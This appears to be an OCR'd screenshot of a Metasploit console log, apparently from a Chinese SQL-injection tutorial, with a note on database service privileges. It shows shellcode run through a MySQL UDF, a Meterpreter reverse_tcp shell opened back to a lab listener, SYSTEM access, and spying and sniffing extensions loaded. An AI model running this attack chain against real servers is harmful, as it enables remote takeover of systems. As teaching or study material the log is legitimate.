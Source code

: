 
    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD =&gt; windows/meterpreter/reverse_tcp
EXITFUNC =&gt; thread
LPORT =&gt; 60641
LHOST =&gt; 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_bineval', 
please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -&gt; 192.168.136.129:1689) at Mon Apr 11 
hh:mm:52 +0100 2011

meterpreter &gt; Loading extension espia...success.
meterpreter &gt; Loading extension incognito...success.
meterpreter &gt; [-] The 'priv' extension has already been loaded.
meterpreter &gt; Loading extension sniffer...success.
meterpreter &gt; System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter &gt; Server username: NT AUTHORITY\SYSTEM
meterpreter &gt; ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter &gt; exit

[*] Meterpreter session 1 closed.  Reason: User exit

默认情况下MySQL在Windows上以SYSTEM权限运行，PostgreSQL在Windows与Linux中是低权限运行，Microsoft SQL Server 2000默认是以SYSTEM权限运行，Microsoft SQL Server 2005与2008大部分是以NETWORK SERVICE有时是LOCAL SERVICE。
